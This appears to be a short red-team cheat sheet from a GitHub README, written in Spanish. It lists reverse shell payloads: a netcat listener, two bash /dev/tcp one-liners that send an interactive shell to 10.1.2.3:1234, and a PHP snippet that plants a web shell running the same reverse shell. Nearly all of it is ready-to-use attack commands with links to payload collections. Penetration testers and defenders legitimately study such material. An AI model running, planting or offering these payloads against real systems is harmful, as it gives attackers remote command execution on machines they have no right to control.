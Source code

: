 # red_cheatsheet
Un torpedo para cosas de red teaming

# Reverse Shells

## Netcat Receiver
```
nc -lvnp [receiving port]
```

## Bash TCP
```
/bin/bash -i >& /dev/tcp/10.1.2.3/1234 0>&1
/bin/bash -l > /dev/tcp/10.1.2.3/1234 0<&1 2>&1
```
[ref](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

## Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
?>
```

[ref](https://gist.github.com/rshipp/eee36684db07d234c1cc)
